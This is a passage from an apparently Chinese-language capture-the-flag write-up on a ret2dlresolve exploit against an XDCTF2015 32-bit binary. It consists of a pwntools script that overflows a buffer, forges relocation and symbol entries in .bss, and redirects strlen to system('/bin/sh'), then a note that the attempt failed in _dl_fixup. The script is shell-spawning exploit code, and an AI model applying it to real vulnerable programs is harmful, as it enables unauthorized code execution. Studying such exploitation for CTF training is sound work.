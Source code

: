 ```python
from pwn import *
context(arch='i386', os='linux', log_level='debug')
p    = process('./main_partial_relro_32')
elf    = ELF('./main_partial_relro_32')

dl            = 0x08048370
STRTAB        = 0x0804826C
SYMTAB        = 0x080481CC
JMPREL        = 0x08048324

bss_addr    = elf.bss()
read_plt    = elf.plt['read']
vuln_addr    = elf.symbols['vuln']
strlen_plt    = elf.plt['strlen']
strlen_got    = elf.got['strlen']

p.recvuntil('Welcome to XDCTF2015~!\n')

# 需要在bss段写入的数据
payload    = p32(strlen_got) + p32((int((bss_addr + 0x8 + 0xC - SYMTAB) / 0x10) << 8) | 0x07)                        # 伪造JMPREL
payload    += b'a' * 0xC + p32(bss_addr + 0x8 + 0xC + 0x10 - STRTAB) + p32(0) + p32(0) + p8(0x12) + p8(0) + p16(0)    # 伪造SYMTAB
payload    += b'system\x00/bin/sh\x00'                                                                             # system和/bin/sh字符串

# 往bss中写入伪造数据
p.send(b'a' * 112 + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(bss_addr) + p32(len(payload)))
p.send(payload)

# 调用strlen的plt的第二部分去重定向strlen
p.send(b'a' * 112 + p32(dl) + p32(bss_addr - JMPREL) + p32(vuln_addr) + p32(bss_addr + 0x8 + 0xC + 0x10 + 0x7))

p.interactive()
```

但是我们并没有拿到shell，调试一下发现在`_dl_fixup`函数中我们尝试将
`0xf8016784`中的值写入`0x0`中，很明显我们`0x0`处是不可写的

![main_partial_relro_32_1.png](./image/main_partial_relro_32_1.png)